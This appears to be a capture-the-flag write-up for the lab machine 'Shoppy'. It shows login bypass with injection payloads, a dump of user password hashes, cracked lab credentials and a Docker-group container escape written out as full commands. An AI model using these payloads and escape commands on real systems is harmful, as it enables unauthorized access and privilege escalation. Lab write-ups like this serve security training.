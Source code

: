 # Shoppy

![Nmap Enumeration](../../images/42278d16449490169460e9f9fe12e90df38b02acf13b6001889a2a5dcab36e6d.png)  
![Subdomain enumeration](../../images/67ec2b6b4f2c0dc2948d69cbc9972518c148abfd672873d1ab65b82e0eec5341.png)  
![Dirbusting](../../images/a73a7d424723412fb6b05f8a7a1182c09c60c67ba1d0038ed4a529ec04192ba6.png)  

![mattermost page view](../../images/7e28082330660bdc00629faddd80edc4a77a292a3fda1cf36ac7b3e9ded8b7f6.png)  
![Login CTF](../../images/d35c4f3bf5e8de6ba77cd5622a2689cccbd40a7577d1cbfee15e26f5baaccaf9.png)  

Fuzzing for the post paramaters ==> It errors for SQLI.
Trying to guess the sql query:

```SQL
select username where username='USERNAME_INPUT' and password='PASSWORD_INPUT';
select username where username="USERNAME_INPUT" and password='PASSWORD_INPUT';
```

To login we should
```SQL
select username where username='admin' or '1'='1' and password='PASSWORD_INPUT';
select username where username='admin' || '1'='1' and password='PASSWORD_INPUT';
select username where username='admin' || '1=1' and password='PASSWORD_INPUT';
select username where username='admin' || '1=1' and password='PASSWORD_INPUT';
```

![Got access finally](../../images/a608231baac632570480c3da9d6b09357963a59aabf4cc1977f60da4e3836e4f.png)  

![Search users](../../images/384d83e0e3ccaf5bf6ea5640b5808fbcce82540f4591aa624853b71e4b9f585a.png)  

`http://shoppy.htb/admin/search-users?username=admin`
Tried SQLI on username query param with sqlmap and quick fuzzing showed me that it's also vulnerable probably the same developer :,)

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

![Password looks hashed](../../images/a2e3d0e32551bc021e7de1aa63324e2b25cf6f4404fe71f27a7198d08cba9409.png)  
![Cracking user password](../../images/31602428cf3b8f5b378a431ff182055856835d8d9a0cf4553a74be59ee10c616.png)  
Trying the credentials on the subdomain page: 
![Logged in view](../../images/ea2ca9e24e1f2be8714b344d5570c9ff437852569afc58810c5e88fc97bf21d1.png)  

![Docker creds](../../images/ed562fce6267aec20829c0cf03d694a318aa3756e05f5ac8f54ea29bd87a0e93.png)  

```creds
username: jaeger
password: Sh0ppyBest@pp!
```

Going back to ssh
![SSH in](../../images/b79efe0e83160dee7ab1e4bd5d5bb26bd9b266cd9f725cc88957c341726f0825.png)  

![Sudo -l](../../images/b3aa6cbbea34e0f34139d177aa7bbae9d5ff21404fc6fd0f00df201efe6d56ce.png)  

Finding the file `password-manager`, getting it to my machine and opening with ghidra. The password was `Sample`
![Decompiling](../../images/55076bf0668ed87d9e1c6d88f50a51d1c72e2c1501c1aaa3ac007b7b65afab09.png)  

Now we have a new pair of credentials:
![deploy Credentials](../../images/98256a61e50b3505aaae1995a1aedd2a42f2b3450bba3273128907f533ad74aa.png)  

```creds
username: deploy                                                                                                     │
password: Deploying@pp! 
```

Now we want to break out of the container: That's basically easy as the container still communicates with the daemon through a socket
![picture 16](../../images/3aa65dcb82e2f7fd60131463683cbd2e7e16c26b9f2c484810265f3cc5028e46.png)  

1. `docker images` => We find an alpine image available
2. `docker run -it --rm --pid=host --privileged alpine sh`
3. `docker run -it -v /:/host/ alpine chroot /host/ bash`
4. `nsenter --target 1 --mount --uts --ipc --net --pid -- bash` => Tadaa get the flag now

[Reference](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)